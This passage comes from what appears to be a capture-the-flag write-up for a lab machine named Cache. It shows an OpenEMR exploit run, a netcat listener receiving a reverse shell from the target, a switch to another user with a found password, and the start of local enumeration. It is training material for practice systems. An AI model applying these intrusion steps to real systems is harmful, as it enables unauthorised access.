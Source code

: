        ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                           
             Twitter : @Insecurity                       
             Site    : insecurity.sh                     

    [$] Authenticating with openemr_admin:xxxxxx
    [$] Injecting payload



It just hangs like this, but in a new window, I've got a shell:



    root@kali# nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.188.
    Ncat: Connection from 10.10.10.188:57446.
    bash: cannot set terminal process group (2167): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cache:/var/www/hms.htb/public.md/interface/main$



## Priv: www-data --\> ash

With the creds I found earlier for the webpage (H@v3_fun), I can `su` to
ash:



    www-data@cache:/var/www/hms.htb/public.md/interface/main$ su - ash
    Password: 
    ash@cache:~$



And get `user.txt`:



    ash@cache:~$ cat user.txt
    dba76925************************



## Priv: ash --\> luffy

### Enumeration

In looking around, I noticed something listening on port 11211:



    ash@cache:~$ netstat -tnlp
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)                                            
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -    
